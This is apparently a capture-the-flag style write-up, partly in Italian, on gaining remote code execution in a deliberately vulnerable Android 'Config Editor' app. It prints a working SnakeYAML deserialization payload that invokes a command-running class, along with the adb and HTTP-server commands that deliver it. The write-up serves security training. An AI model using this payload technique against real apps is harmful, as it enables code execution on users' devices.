 # Config Editor

Achieve Remote Code Execution via a Config Editor app in Android by exploiting vulnerabilities in a third party library.

## Table of Contents

1. [Look Around](#look-around)
2. [Static Analysis](#static-analysis)
3. [Dynamic Analysis](#dynamic-analysis)
4. [Exploiting](#exploiting)
5. [Shell is the way](#shell-is-the-way)
6. [And now?](#and-now)

## Look Around

L'applicazione viene utilizzata per leggere file con estensione `.yaml`

## Static Analysis

Considerazioni sul file `AndroidManifest.xml`

### Permissions

+ `READ_EXTERNAL_STORAGE`, `WRITE_EXTERNAL_STORAGE`, `MANAGE_EXTERNAL_STORAGE` , permessi per permettere all'applicazione di potere salvare, leggere e scrivere file sulla memoria esterna `sdcard`
+ `INTERNET` , utilizzata per accedere ad Internet

```xml
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
```

### Implicitly Exported Component

An implicitly exported component could allow access to the component Activity, MainActivity.
In questo caso, l'applicazione gestirà i link con scheme `file://`, `http://` e `https://` e file con estensione  `.yaml`

```xml
       <activity android:name="com.mobilehackinglab.configeditor.MainActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="file"/>
                <data android:scheme="http"/>
                <data android:scheme="https"/>
                <data android:mimeType="application/yaml"/>
            </intent-filter>
        </activity>
```

### MainActivity

+ Look into MainActivity and what happen

### SnakeYAML

+ SnakeYaml CVE

### SemGrep

+ SemGrep Rules

## Dynamic Analysis

Sanity check:

1. Crea un file `yaml`
2. Metti in ascolto un listener python sulla porta 8080
3. Simula una connessione http con un file yaml con adb
L'applicazione dovrebbe aprirsi e tenterà di leggere il file (se vuoto, l'output sarà vuoto)

Commands:

```sh
$linux> touch example.yaml
$linux> python3 -m http.server 8080
$linux> adb shell am start -a android.intent.action.VIEW -d  "http://$IP:8080/example.yaml" -n com.mobilehackinglab.configeditor/.MainActivity
```

## Exploiting

```yaml
pwn: !!com.mobilehackinglab.configeditor.LegacyCommandUtil [ "/bin/touch /data/data/com.mobilehackinglab.configeditor/pwn.txt" ]
```

```sh
$linux> touch pwn.yaml
$linux> python3 -m http.server 8080
$linux> adb shell am start -a android.intent.action.VIEW -d  "http://$IP:8080/pwn.yaml" -n com.mobilehackinglab.configeditor/.MainActivity
$linux> adb shell ls /data/data/com.mobilehackinglab.configeditor
output: pwn.txt # in listing file
```

<p align="center">
<img src="assets/pwn.png" width="350"/>
</p>

## Shell is the way

+ RCE yes, but where is the shell? method with c script and dalvikvm method

## And now?

+ Android Kernel Privesc, Sandbox Escape, etc
